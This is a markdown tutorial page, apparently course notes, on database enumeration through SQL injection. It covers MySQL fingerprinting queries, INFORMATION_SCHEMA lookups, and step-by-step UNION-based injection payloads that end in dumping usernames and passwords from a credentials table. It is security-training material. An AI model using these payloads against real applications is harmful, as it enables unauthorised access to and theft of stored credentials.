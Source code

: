 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Database Enumeration

Database enumeration is a critical technique used in cybersecurity to extract detailed information about a database's structure and contents. By leveraging SQL queries, particularly in the context of SQL injection vulnerabilities, security professionals and attackers alike can uncover valuable insights, such as the names of databases, tables, and columns. This process not only aids in understanding the database architecture but also highlights potential security weaknesses that could be exploited. Understanding how to effectively perform database enumeration is essential for both securing applications and conducting penetration testing.

**Overview**

* Database Enumeration focuses on gathering data from a database using SQL queries within SQL injection contexts.
* It emphasizes on MySQL fingerprinting and utilizing the INFORMATION\_SCHEMA database for enumeration.

**MySQL Fingerprinting**

* **Purpose**: Identify the type of DBMS to tailor SQL queries accordingly.
* **Initial Guesses**:
  * Apache/Nginx → Likely MySQL (Linux)
  * IIS → Likely MSSQL (Windows)
* **Fingerprinting Queries**:
  * `SELECT @@version`: Returns MySQL version (e.g., `10.3.22-MariaDB-1ubuntu1`).
  * `SELECT POW(1,1)`: Returns `1` for numeric output.
  * `SELECT SLEEP(5)`: Delays response by 5 seconds for blind injections.

**INFORMATION\_SCHEMA Database**

* Contains metadata about databases and tables on the server.
* Essential for exploiting SQL injection vulnerabilities.
* Use the dot operator to reference tables in other databases.

**Enumeration Steps**

1. **List Databases**:
   * Query: `SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;`
   * Output: Lists all databases, ignoring default ones (mysql, information\_schema, performance\_schema).
2. **Identify Current Database**:
   * Query: `SELECT database();`
   * Output: Identifies the active database (e.g., `ilfreight`).
3. **List Tables in a Database**:
   * Query: `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`
   * Output: Lists tables in the specified database (e.g., `credentials`, `framework`, `pages`, `posts`).
4. **Find Column Names in a Table**:
   * Query: `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`
   * Output: Identifies columns (e.g., `username`, `password`).
5. **Dump Data from a Table**:
   * Final Query: `cn' UNION select 1, username, password, 4 from dev.credentials-- -`
   * Output: Retrieves sensitive information (e.g., password hashes, API keys).

**Key Takeaways**

* Understanding the structure of the INFORMATION\_SCHEMA is crucial for effective database enumeration.
* Properly formed SQL queries can extract sensitive data through SQL injection vulnerabilities.
* Always use the correct database context when referencing tables and columns.
